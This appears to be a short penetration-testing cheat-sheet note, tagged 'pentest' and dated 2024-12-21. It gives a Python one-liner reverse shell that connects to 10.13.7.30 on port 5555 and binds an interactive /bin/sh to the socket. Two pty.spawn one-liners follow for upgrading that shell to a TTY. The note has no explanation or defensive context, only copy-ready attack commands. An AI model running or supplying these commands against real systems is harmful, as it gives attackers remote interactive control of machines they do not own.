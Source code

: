 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

python

Reverse Shell

~~~python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.13.7.30",5555));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
~~~

TTY Support for Linux

~~~python
python -c "import pty;pty.spawn('/bin/bash')"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

~~~python
python3 -c "import pty;pty.spawn('/bin/bash')"
~~~

